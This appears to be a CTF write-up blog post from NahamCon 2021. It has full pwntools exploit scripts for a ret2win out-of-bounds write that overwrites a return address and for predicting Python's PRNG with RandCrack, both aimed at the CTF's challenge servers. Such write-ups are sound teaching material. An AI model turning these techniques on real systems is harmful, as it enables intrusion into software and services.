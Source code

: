 ```yaml
---
title: "NahamCon CTF 2021"
header:
  teaser: /assets/images/2021-nahamcon/NahamCon-logo.png
excerpt_separator: "<!--more-->"
categories:
  - CTF
tags:
  - PWN
  - Ghidra
---
```


The [Hack South](https://hacksouth.africa/) CTF team was banging on all cylinders during this CTF and we placed 13th overall! I am extremely proud of this result. Only in its second year, it is easily one of the best amateur CTFs around. Ben Sadeghipour, John Hammond, and everyone else do amazing work and took CTFs to a new level with this event.<!--more-->

I completed a number of challenges. These two were my favourites:

## The List (PWN)

The List was a ret2win challenge with a fun twist... The application allows up to 16 names to be added, read, removed, or changed. Analysis of the decompiled code in Ghidra showed a bug in bounds checking which allowed changing the 17th "name" after 16 names are added. There is no 17th name. This is an out of bounds write over the area where the return pointer is located.

The first step is to check architecture and presence of any security controls with `checksec`.
* No stack canary is present so we don't need to try to leak or work around it.
* This is not a position independent executable (No PIE), so function addresses will stay static. I.e. function addresses shown in GDB or Ghidra will be the same during runtime.
* NX is enabled, which limits us from executing custom shell code or changing existing code pages. We can still change some memory areas, including the stack.

```
➜  list checksec the_list
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

The solution seems simple enough: Overwrite the return address with the address of `give_flag` to redirect code execution there when the current function completes. No PIE means the runtime function address is known.

My exploit solution:

```python
#!/usr/bin/env python3
from pwn import *

context.log_level = 'DEBUG'

def add_user(t, name):
    t.recvuntil(b'> ')
    t.sendline(b'2')
    t.recvuntil(b'name: ')
    t.sendline(name)

def change_name(t, index, name):
    t.recvuntil(b'> ')
    t.sendline(b'4')
    t.recvuntil(b'change? ')
    t.sendline(index)
    t.recvuntil(b'name? ')
    t.sendline(name)

def do_exit(t):
    t.recvuntil(b'> ')
    t.sendline(b'5')

elf = ELF('./the_list')

# debugging
#gdb_cmd = ['b *change_uname', 'c']
#t = gdb.debug(elf.file.name, '\n'.join(gdb_cmd))

# local
# t = process(elf.file.name)

t = remote('challenge.nahamcon.com', 31980)

t.recvuntil(b'name: ')
t.sendline(b'BBBB')

for i in range(16):
    add_user(t, b'AAAA')

buf = b'A' * 72      # filler
buf += p64(0x401369) # addess of the give_flag function

change_name(t, b'17', buf)
do_exit(t)

t.interactive()
```

## Dice Roll (PWN)

Dice Roll was a Python PRNG challenge where I needed to "guess" the next value of `getrandbits`. The RandCrack Python package replicates state of the generator after receiving enough sequential samples. Once the internal state is the same, it provides the next values that will be generated by the generator.

My code solution:

```python
#!/usr/bin/env python3
from pwn import *
from randcrack import RandCrack

context.log_level = 'DEBUG'

rc = RandCrack()
t = remote('challenge.nahamcon.com', 31784)
#t = remote('127.0.0.1', 1337)

t.recvuntil(b'> ')
t.sendline(b'1')

while not rc.state:
    t.recvuntil(b'> ')
    t.sendline(b'2')
    val = t.recvuntil(b'\n\n')
    num = int(val.split(b'\n')[1])
    rc.submit(num)

guess = rc.predict_getrandbits(32)
t.recvuntil(b'> ')
t.sendline(b'3')
t.recvuntil(b'> ')
t.sendline(str(guess))

t.interactive()
```